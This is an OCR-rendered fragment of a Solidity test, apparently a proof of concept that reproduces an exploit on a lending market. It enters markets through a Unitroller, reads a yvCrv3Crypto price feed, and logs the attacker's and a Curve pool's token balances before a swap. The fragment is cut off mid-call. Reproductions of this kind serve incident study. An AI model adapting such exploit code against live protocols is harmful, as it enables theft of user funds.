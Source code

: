 │     toEnter[0] = 0x1429a930ec3bcf5Aa32EF298ccc5aB09836EF587;                                                                                                                                                                                         │
│     Unitroller.enterMarkets(toEnter);                                                                                                                                                                                                                │
│                                                                                                                                                                                                                                                      │
│     emit log_named_int(                                                                                                                                                                                                                              │
│       "YVCrv3CryptoFeed lastanswer:",                                                                                                                                                                                                                │
│       YVCrv3CryptoFeed.latestAnswer()                                                                                                                                                                                                                │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "Before swap, USDT balance of attacker:",                                                                                                                                                                                                      │
│       usdt.balanceOf(address(this))                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "Before swap, WBTC balance of CRV3Pool:",                                                                                                                                                                                                      │
│       WBTC.balanceOf(address(curveVyper_contract))                                                                                                                                                                                                   │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "Before swap, WETH balance of CRV3Pool:",                                                                                                                                                                                                      │
│       WETH.balanceOf(address(curveVyper_contract))                                                                                                                                                                                                   │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "Before swap, USDT balance of CRV3Pool:",                                                                                                                                                                                                      │